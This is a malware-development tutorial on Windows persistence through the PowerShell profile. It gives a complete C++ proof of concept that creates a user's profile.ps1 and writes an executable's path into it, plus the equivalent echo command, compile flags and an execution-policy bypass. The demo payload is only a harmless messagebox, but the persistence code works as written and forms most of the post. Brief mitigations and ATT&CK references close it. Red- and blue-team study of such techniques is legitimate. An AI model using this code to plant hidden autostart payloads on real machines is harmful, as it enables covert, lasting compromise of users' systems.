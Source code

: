 \newpage
\subsection{77. malware development: persistence - part 11. Powershell profile. Simple C++ example.}

﷽

![pers](./images/70/2022-09-20_08-06.png){width="80%"}    

This post is the result of my own research into one of the interesting malware persistence trick: via powershell profile.    

### powershell profile

A PowerShell profile is a powershell script that allows system administrators and end users to configure their environment and perform specified commands when a Windows PowerShell session begins.     

The PowerShell profile script is stored in the folder `WindowsPowerShell`:    

![pers](./images/70/2022-09-20_08-29.png){width="80%"}    

Let's add the following code to a to the current user's profile file, that will be performed whenever the infected user enters a powershell console:    

`Z:\2022-09-20-malware-pers-11\hack.exe`    

I will demonstrate everything with a practical example and you will understand everything.    

### practical example

Firstly, create our "malicious" file:     

```cpp
/*
hack.cpp
evil app for windows
persistence via powershell profile
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/20/malware-pers-11.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

As usually it is just "meow-meow" messagebox.    

Compile it:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/70/2022-09-20_08-07.png){width="80%"}    

And we can run at victim machine for checking correctness:    

![pers](./images/70/2022-09-20_09-03.png){width="80%"}    

Then we do this simple "trick":   

```powershell
echo Z:\2022-09-20-malware-pers-11\hack.exe > 
"%HOMEPATH%\Documents\windowspowershell\profile.ps1"
```

And finally, run powershell:    

```powershell
powershell -executionpolicy bypass
```

![pers](./images/70/2022-09-20_08-16.png){width="80%"}    

![pers](./images/70/2022-09-20_08-18.png){width="80%"}    

As you can see, our malicious logic executed as expected and powershell is the parent process of our messagebox. =^..^=    

I created a simple PoC code to automate this process:    

```cpp
/*
pers.cpp
windows persistence via Powershell profile
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/20/malware-pers-11.html
*/
#include <windows.h>
#include <stdio.h>
#include <strsafe.h>
#include <iostream>

int main(int argc, char* argv[]) {
  char path[MAX_PATH];
  char *homepath = getenv("USERPROFILE");
  char pspath[] = "\\Documents\\windowspowershell";
  char psprofile[] = "\\profile.ps1";
  char evil[] = "Z:\\2022-09-20-malware-pers-11\\hack.exe";
  DWORD evilLen = (DWORD)strlen(evil);

  StringCchCopy(path, MAX_PATH, homepath);
  StringCchCat(path, MAX_PATH, pspath);
  BOOL wd = CreateDirectoryA(path, NULL);
  if (wd == FALSE) {
    printf("unable to create dir: %s\n", path);
  } else {
    printf("successfully create dir: %s\n", path);
  }

  StringCchCat(path, MAX_PATH, psprofile);
  HANDLE hf = CreateFile(
    path,
    GENERIC_WRITE,
    0,
    NULL,
    CREATE_NEW,
    FILE_ATTRIBUTE_NORMAL,
    NULL
  );

  if (hf == INVALID_HANDLE_VALUE) {
    printf("unable to create file: %s\n", path);
  } else {
    printf("successfully create file: %s\n", path);
  }

  BOOL wf = WriteFile(hf, evil, evilLen, NULL, NULL);
  if (wf == FALSE) {
    printf("unable to write to file %s\n", path);
  } else {
    printf("successfully write to file evil path: %s\n", evil);
  }

  CloseHandle(hf);
  return 0;
}
```

The logic is simple, this script just create profile folder if not exists, then create profile file and update it.     

### demo

Let's go to see everything in action. Compile our PoC:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/70/2022-09-20_08-07_1.png){width="80%"}    

And run it on the victim's machine:    

```powershell
.\pers.exe
```

![pers](./images/70/2022-09-20_08-09.png){width="80%"}    

![pers](./images/70/2022-09-20_08-11.png){width="80%"}    

And when powershell session is started:        

![pers](./images/70/2022-09-20_08-51.png){width="80%"}    

If we check it via Process Hacker:     

![pers](./images/70/2022-09-20_08-53.png){width="80%"}    

`powershell.exe` is the parent process again as expected.     

As you can see everything is worked perfectly! =^..^=    

But there are the caveat. If powershell runned without execution policy bypass mode, this persistence trick not work in my case:    

![pers](./images/70/2022-09-20_09-05.png){width="80%"}    

Also there are four places you can abuse the powershell profile, depending on the privileges you have:   

```powershell
$PROFILE | select *
```

![pers](./images/70/2022-09-20_09-08.png){width="80%"}    

By storing arbitrary instructions in the profile script, PowerShell profiles present several chances for code execution. To avoid relying on the user to start PowerShell, you may use a scheduled job that executes PowerShell at a certain time.      

### mitigations

Enforce execution of only signed PowerShell scripts. Sign profiles to avoid them from being modified. Also you can avoid PowerShell profiles if not needed, for example via `-No-Profile` flag.    

This persistence trick is used by [Turla](https://attack.mitre.org/groups/G0010/) in the wild.    

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.

[Microsoft PowerShell profiles](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_profiles?view=powershell-7.2)       
[MITRE ATT&CK. Event Triggered Execution: PowerShell Profile](https://attack.mitre.org/techniques/T1546/013/)     
[Turla](https://attack.mitre.org/groups/G0010/)     
[source code on github](https://github.com/cocomelonc/meow/tree/master/2022-09-20-malware-pers-11)    
